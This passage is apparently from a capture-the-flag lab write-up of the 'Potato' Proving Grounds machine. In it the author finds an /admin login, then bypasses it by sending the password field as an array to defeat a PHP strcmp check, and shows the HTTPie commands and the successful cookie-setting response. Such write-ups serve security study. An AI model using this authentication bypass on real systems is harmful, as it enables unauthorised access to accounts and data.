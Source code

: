 We found an `/admin` path, that's promising:

![](./assets/potato-80-admin.png)

Unfortunately, the credentials we found earlier (`admin:potato`) do not work.

Tried them on the webui and also with HTTPie:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-04-06-Potato]
└─$ http --form POST http://potato/admin/index.php?login=1 username=admin password=potato submit=Login
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 115
Content-Type: text/html; charset=UTF-8
Date: Sat, 06 Apr 2024 22:57:51 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding

<html>
<head></head>
<body>

<p>Bad user/password! </br> Return to the <a href="index.php">login page</a> <p>
```

Looking at the presumed copy of the source code, I notice that the password comparison uses `strcmp`, which means we can potentially bypass the authentication by simply changing the input type of the `passowrd` field to an array.

That worked!

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-04-06-Potato]
└─$ http --form POST http://potato/admin/index.php?login=1 username="admin" password[]="" submit="Login"
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 98
Content-Type: text/html; charset=UTF-8
Date: Sat, 06 Apr 2024 23:17:13 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.41 (Ubuntu)
Set-Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh; expires=Sun, 06-Apr-2025 23:17:13 GMT; Max-Age=31536000
Vary: Accept-Encoding
```